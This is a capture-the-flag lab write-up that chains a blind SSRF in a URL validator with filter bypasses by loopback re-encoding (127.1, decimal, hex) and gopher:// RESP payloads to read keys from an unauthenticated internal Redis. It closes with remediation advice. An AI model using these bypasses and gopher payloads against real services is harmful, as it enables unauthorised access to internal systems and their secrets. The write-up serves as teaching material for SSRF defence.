



# 🔗 SecureLink Validator Pro — The Trap in the Links

> **Category:** Web / SSRF · **Difficulty:** Medium · **Chain:** SSRF → Gopher → Redis
> **Target:** `34.0.219.143:5030`

A blind SSRF in a URL validator, escalated through the **Gopher** protocol into an
**unauthenticated internal Redis** instance to read company secrets.

---

## 01 · Recon & the filter

A URL-verification service fetches a user-supplied URL server-side — a classic SSRF
surface. Pointing it inward at `http://127.0.0.1` is blocked:



The **Network → Response** body reveals *why*:

```json
{
  "error":   "Invalid or blocked URL detected",
  "message": "URL contains blocked patterns or invalid protocol",
  "note":    "Localhost and private IP ranges are not allowed"
}
```

> **Key insight —** the word *"patterns"* means the filter matches **text**, not the
> resolved IP. A string blacklist can be fooled by spelling the same address differently.

---

## 02 · Leaked internal endpoints

The page source exposed the API's own routes:



Both debug routes were public and mapped the internal architecture:

```
# /debug/health + /api/docs — key facts
redis_cache:          "127.0.0.1:6379"   (secrets stored here)
supported_protocols:  [http, https, gopher]
security_note:        "Redis has no authentication configured"
```

> **Three gifts:** Redis address + `gopher` allowed + no auth → target fully defined.

---

## 03 · Bypassing the filter — why `127.1` works

> **The lazy bouncer.** He has a banned-names list and only checks the name you *say*,
> letter for letter — never your face. Say *"Jonathan Smith"* (on the list) → rejected.
> Say *"J. Smith"* (not literally listed) → admitted — same person. The address never
> changed, only its spelling. That's `127.0.0.1` vs `127.1`.

An IPv4 address is really one 32-bit number; the parser accepts shorthand where the
last part fills the missing octets. Same loopback, different text:

| Form            | Reads as            | Filter      |
| --------------- | ------------------- | ----------- |
| `127.0.0.1`     | canonical           | ❌ blocked  |
| `127.1`         | → 127.0.0.1         | ✅ passed   |
| `2130706433`    | the IP as decimal   | ✅ passed   |
| `0x7f000001`    | the IP as hex       | ✅ passed   |

All three alternatives passing **proves the filter did no host normalization** — a real
resolver would have caught them all at once.

---

## 04 · Gopher → Redis

HTTP can't issue Redis commands; `gopher://` sends **raw bytes** ("raw TCP in a URL"),
which is exactly why a hardened validator should forbid it. Redis speaks **RESP**, each
line ending in `\r\n`, URL-encoded as `%0d%0a`:

```
# PING → RESP: *1 $4 PING
gopher://127.1:6379/_%2a1%0d%0a%244%0d%0aPING%0d%0a
# → +PONG   (channel confirmed)
```

---

## 05 · Enumeration

Standard sequence: `INFO` → `KEYS *` → `GET`. `INFO keyspace` showed `db0:keys=44`;
`KEYS *` listed them:



> **Why GET —** Redis is a key→value store: `KEYS` lists names, `GET` returns a single
> key's value. RESP even hands you each key's length (`$20`) — the exact number to reuse
> in the payload.

```
# GET the target key → RESP: *2 $3 GET $20 <key>
gopher://127.1:6379/_%2a2%0d%0a%243%0d%0aGET%0d%0a...
```

🚩 **Flag retrieved** — `TPL{ ... }`

---

## 06 · How I got there

1. **URL validator → think SSRF.** Aim it inward at `127.0.0.1`.
2. **Read the error.** *"patterns"* = text filter → beatable with alternative spellings.
3. **Read the page source.** Debug routes leaked Redis, gopher, no-auth.
4. **Re-encode loopback.** `127.1` passes → now reaching the server itself.
5. **Switch to gopher.** Speak RESP; `PING` → `+PONG` confirms the channel.
6. **Let Redis guide you.** Each error (`-ERR *1`, empty `*0`) pointed to the next fix → `INFO / KEYS / GET`.

---

## 07 · Remediation

| Weakness              | Fix                                                                       |
| --------------------- | ------------------------------------------------------------------------- |
| String blacklist      | Resolve host server-side, reject loopback/private ranges — never raw text |
| Gopher allowed        | Whitelist `http` / `https` only                                           |
| Open Redis            | Set `requirepass`, bind to localhost, rename risky commands               |
| Public debug routes   | Remove `/debug/health` & `/api/docs` in production                        |

---

## 🏅 Certificate

Challenge completed on **[thePwnLab](https://thepwnlab.es/retos)**.


🔗 **[Verify this certificate](https://thepwnlab.es/certificado/59f4f392fef3cc3aa60291496a374cf70f4ee50c0733eacc69cefd5fd5e79c0e)**

---

*Author: Andrzej Banas · Educational writeup.*
